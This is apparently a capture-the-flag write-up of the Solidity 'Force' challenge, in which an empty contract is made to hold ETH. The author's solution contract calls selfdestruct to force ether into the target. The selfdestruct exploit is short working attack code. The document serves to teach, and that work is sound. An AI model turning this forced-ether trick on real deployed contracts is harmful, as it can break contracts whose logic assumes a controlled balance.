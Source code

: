 ## Fallback memes

### Contract

<details><summary>CLICK TO VIEW</summary>
<p>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

</p>
</details>

### Solution

Ah ha. Famous challenge! If you've read the documentation on Ethereum, you might have seen the following notice:

![ETH docs image](https://i.imgur.com/rgrWc17.png)

Hence, because I was too lazy to do any sort of block mining (if even that was possible in the first place?), I decided to opt in for the easy strat: 
self destruction. I quickly mashed up the following smart contract:

```solidity
contract Exploit {
    address public delegate;

    constructor (address delegate_) public payable {
        delegate = delegate_;
    }

    function exploit() public {
        address payable addr = payable(delegate);
        selfdestruct(addr);
    }
}
```

I then pushed the contract with 0.01 ETH to give it a bit of value, then proceeded to run the exploit, effectively self destructing and sending all the ethereum
to our target contract. Mission success. 
